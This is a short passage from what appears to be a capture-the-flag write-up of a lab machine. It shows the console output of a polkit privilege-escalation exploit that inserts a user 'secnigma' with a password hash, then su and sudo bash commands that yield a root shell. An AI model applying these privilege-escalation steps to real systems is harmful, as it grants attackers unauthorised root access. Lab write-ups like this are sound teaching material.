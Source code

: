 ```bash
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
```

Then, I tried to switch user.

```bash
[dwight@paper tmp]$ su - secnigma
Password: 

[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma: 

[root@paper secnigma]# id

uid=0(root) gid=0(root) groups=0(root)
[root@paper secnigma]# whoami
root
```

I got `root` shell!